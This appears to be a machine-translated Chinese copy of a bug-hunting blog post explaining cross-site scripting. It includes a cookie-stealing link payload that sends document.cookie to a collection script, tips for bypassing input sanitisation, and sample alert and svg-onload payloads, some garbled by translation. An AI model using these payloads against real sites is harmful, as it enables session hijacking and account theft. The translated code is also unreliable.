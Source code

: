 # 幕后:XSS

> 原文：<https://infosecwriteups.com/behind-the-scene-xss-6a7ff5559b54?source=collection_archive---------2----------------------->

![](img/95307d0274054d756fac0967ed3db2ca.png)

嘿，赛博朋克们，我希望你们都过得很好，如果不是，那么你是在正确的地方，至少**把 XSS** 的疑问从你的生活中移除。这篇文章会让你接近完美(众所周知，人无完人:P)。所以，不浪费任何时间**让我们深入研究一下**。

> **注意:-** 我会让它**非常简单**这样你就能真正了解 XSS 的幕后#了。此外，我不会涵盖不同类型的 XSS，因为你可以在互联网上找到它。本文将讨论后端过程和一些绕过 XSS 的技术。没有书生气的语言。只是黑客语言。

在我们开始之前，让我们了解一下 XSS 到底是什么？

**XSS(跨站脚本)是什么黑客？**

**XSS 是**一个**客户端代码注入攻击**。我的意思是，通过在真正的网页中嵌入恶意代码，攻击者希望在受害者的 web 浏览器上执行有害的脚本。

我发现这个图像有助于清楚地理解这个概念。看一看，试着去理解到底发生了什么？

[![](img/7ee832e7436dc274e44420e15e8d890b.png)](https://bit.ly/3wTqQxD)

XSS 的运作

还有什么疑问吗？别担心，让我们用一个例子更深入地探讨一下。

> **示例**
> 
> 1.假设你正在测试一个站点**xyz.com**，你发现，你可以在任何参数/脆弱点注入你的脚本。
> 
> 2.然后你注入你的脚本比如说"<**一个 onl cick document . location = " http://localhost/ethical kaps/get cookies . PHP？cookie = '+escape(document . cookie)；href = " https://ethical kaps . com ">点击此处< /a > "** 。(这基本上会从受害者的会话中窃取 cookie)
> 
> 3.该脚本进入 web 应用程序，并操纵网站代码。
> 
> 4.现在，当受害者访问您通过 **href、**创建的链接时，您将能够获取受害者的会话 cookie。

**简单对吗？**是啊，**T27 果然是**啊！！但大多数情况下，开发者会对用户输入进行净化，因此我们无法将有效载荷直接注入网站，所以我们会寻找其他方法来绕过净化。

**几种绕过限制的方法:-**

1.  对你的有效载荷使用编码。(例如 **<** 可以编码为%3C，**？**如%3F%0A 等。)
2.  如果你的有效载荷反映在网站上，而不是执行。然后查看页面源代码，看看你的有效载荷卡在哪里了&据此对你的有效载荷进行修改。
3.  有时我们会因为视觉而错过 XSS，所以别忘了试试盲人 XSS。(我个人用的是 **XSS 猎人**。 **)**
4.  如果参数没有速率限制，您可以使用入侵者攻击，并注入有效负载列表。

我个人更喜欢:-

[](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) [## 跨站点脚本(XSS)备忘单- 2021 版|网络安全学院

### 这个跨站点脚本(XSS)备忘单包含许多可以帮助你绕过 WAFs 和过滤器的向量。你可以…

portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 

原因是他们定期更新他们的有效载荷列表。

这些是你不能忘记留意的一些方法。如果您想更多地了解如何绕过编码限制。

访问:-

[](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) [## XSS 滤波规避备忘单

### OWASP 基金会的主要网站上的 XSS 过滤器规避小抄。OWASP 是一个非营利基金会，致力于…

owasp.org](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) 

一些实用的有效载荷。

所以黑客们，现在是你们决定是否真的只是找出“参数”或“搜索”字段并运行这些类型的有效载荷的时候了？例如 **" > <脚本>alert(" cyber punks here ")</脚本>，"><SVG/onload = alert(1)>**等。或者还有其他原因？

继续挖掘和学习新的东西。我会带着另一个**#回到你的场景后面**一些其他的弱点。在那之前，小心点，继续狩猎。

**觉得这个帖子有用？请点击**👏**按钮下面！:)**

如果你喜欢这些内容，你可以在这里支持我:-**@**[**buymeacoffee.com/ethicalkaps**](http://buymeacoffee.com/ethicalkaps)

下一篇文章再见。在那之前保重。和平！

> 你可以在 [**推特**](https://twitter.com/EthicalKaps) 上关注我，在 [**Spotify**](https://open.spotify.com/show/49AHAyFgIy7E2NDjuGRaMm?si=lVPL_DBGRkGIC8DzfTXNbw) 上关注我的评论，在 [**Instagram**](https://www.instagram.com/iam_kapilchoudhary/) 上关注我。

## 如果你喜欢这个故事，请点击👏按钮并分享，帮助其他人找到它！欢迎在下方留言评论。